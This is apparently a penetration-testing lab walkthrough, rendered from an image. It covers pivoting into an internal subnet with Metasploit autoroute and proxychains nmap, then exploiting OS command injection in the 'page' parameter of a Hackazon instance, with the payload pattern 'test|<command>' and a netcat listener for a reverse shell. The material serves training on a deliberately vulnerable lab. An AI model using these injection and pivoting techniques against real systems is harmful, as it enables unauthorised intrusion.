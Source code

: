 ```
[+] Route added to subnet 172.26.0.0/255.255.255.0 from host's routing table.
[*] Post module execution completed
msf6 post(multi/manage/autoroute) > 
```

Now we can access this network through our existing SOCKS proxy using `proxychains4` on our own machine.

```
┌──(root㉿kali)-[/vagrant]
└─# proxychains nmap -sSV -T5 -p0-65535 172.26.0.2 
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-18 02:06 EDT
Nmap scan report for 172.26.0.2
Host is up (0.0000080s latency).
Not shown: 65534 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.7 ((Ubuntu))
443/tcp open  ssl/http Apache httpd 2.4.7 ((Ubuntu))
MAC Address: 02:42:AC:1A:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 108.03 second
```
# Final box

This is running a web service called Hackazon

## Attaining Remote Code Execution via Command Injection

We can exploit an OS command injection vulnerability to attain arbitrary code execution as the user running the web server process, which in this case is the www-data user.
The URL query parameter at http://localhost:8081/account/documents?page=delivery.html is vulnerable to OS command injection, so you can run arbitrary OS commands by going to:

http://localhost:8081/account/documents?page=<your-command-here>


Two notes though:

- Firstly I found increased reliability by putting a test before your command, i.e.
    http://localhost:8081/account/documents?page=test|<your-command-here>


- Secondly, I found that whenever there was an ampersand in the command, such as a `2>&1`, it stopped reading at the `&` and wouldn't work.

## Setting up the listener - The easy way

You could just do `nc -lvnp 1337` and be done, but if you want a proper meterpreter shell keep reading.
